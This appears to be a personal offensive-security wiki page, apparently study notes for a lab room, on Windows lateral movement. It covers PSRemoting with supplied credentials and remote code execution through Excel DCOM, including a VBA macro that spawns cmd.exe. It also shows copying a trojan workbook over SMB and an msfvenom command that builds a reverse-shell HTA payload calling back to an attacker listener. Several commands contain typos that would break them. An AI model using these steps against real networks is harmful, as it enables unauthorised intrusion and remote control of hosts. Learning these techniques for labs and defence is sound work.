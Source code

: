 # Windows Network Lateral Movement
The articles [[Network-Protocols-Hub]], [[Network-Protocols-Cheatsheet]] and [[Windows-Networking]] will provide theory background information, while [[Windows-Networking-Commands]], [[Windows-Commands]] ,[[SMB-Recon-Cheatsheet]] and [[RPCClient-Cheatsheet]] articles will provide command cheatsheet referal.

The are many ways to navigate the network and move laterally through it, the most stealthier from an attacker perspective is to use live off the land and sue common Administrative Tools or by emulating regular user behaviour, but also SysAdmin behaviour - why would a local admin connect from machine that has no reason to connect to another.

This article will require some knowledge of **Integrity Tokens** [[Bypassing-Windows-User-Account-Control]] and [[Windows-User-Account-Control]] as the restrictions imposed by this system, some methods may fail due UAC enforcement. Also Domain and Local Administrators are different objects, but Domain Admins with Local Admin privileges will not be subject to the same checks as a Local Admin. For remote restrictions made by UAC documentation see [UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 

## Contents

[[AD-Lateral-Movement-Spawning-Remote-Processes]]
[[AD-Lateral-Movement-With-WMI]]
[[AD-Lateral-Movement-Alternate-Authenication-Material]]
[[AD-Lateral-Movement-Abusing-User-Behaviour]]

## Port Redirection

Often in real-world networks, Administrator with block some ports for security reassons or have implemented segmentation around the network preventing SMB, RDP, WinRM or RPC ports. Therefore  [[Port-Redirection-And-Tunneling]] is used to bypass these restrictions.

## Exploitation Hashes and Ticket passing for Lateral Movement

See indiviual articles:
[[Pass-The-Hash]]
[[Overpass-The-Hash]]
[[Pass-The-Ticket]]

## PSRemoting

```powershell
$pass = convertto-securestring -asplaintext -force -string ""
$cred = new-object -typename system.management.automation.pscredential -arguementlist "",$pass
$session = newpssession -computername dc01 -credential $cred
enter-pssession -session $sessions
# Sometimes you need to use invoke command instead of $session creation due to shell limitations
invoke-comand -computername $computername -ScriptBlock { whoami /all }  -Credential $cred
# PSRemoting may require a specific configuration as it is a restricting psremoting onto DCs:
-ConfigurationName $configName
```

You can also use [[Impacket-Cheatsheet]]

## Distributed Component Object Model(DCOM)

[The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other](https://en.wikipedia.org/wiki/Component_Object_Model). Similar to [[Object-Oriented-Programming]], but for OS objects and their interactions. [DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) being *Distributed* object across a Windows Network. They ancient technologies that are present in the early days of Windows. One of many [[Network-Protocols-Cheatsheet]] used in AD it specifically interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API. [Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

There are various Microsoft Office DCOM objects that allow for lateral movement.
```powershell
# Create an instance, listing all avaliable methods 
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$IP"))
$com | Get-Member
```
With the `Run` method we can run VBA macro remotely.
```vba
Sub mymacro()
    Shell ("cmd.exe")
End Sub
```
Using legacy .xls formatting the macro is write inside the Office \*-application and then copied to a remote filesystem through SMB using .NET `Copy` method of `System.IO.File` class.
```powershell
$LocalPath = "C:\Users\Administrator\mytrojan.xls"
$RemotePath = "\\$IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```
To then open it remotely
```powershell
$Path = "\\$IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```

The base64 encode [[MSFvenom-Payloads]] command to create HTA attack is:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f hta-psh -o evil.hta
```
The LHOST can be the DC that can called back to a listener.

[[Impacket-Cheatsheet]] with dccomexec.py

## Pass the ccache
[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)



## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)[hackingarticles](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)
[Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 
[Psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
[Metasploit PsExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
[Alternate PtH methods](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/0)
[Graeber BH Whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
[DCOM](https://en.wikipedia.org/wiki/Distributed_Component_Object_Model) 
[COM](https://en.wikipedia.org/wiki/Component_Object_Model)
[MS DCOM Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) 
[Enigmaox3](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)
[UAC Remote Restriction Documentation](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 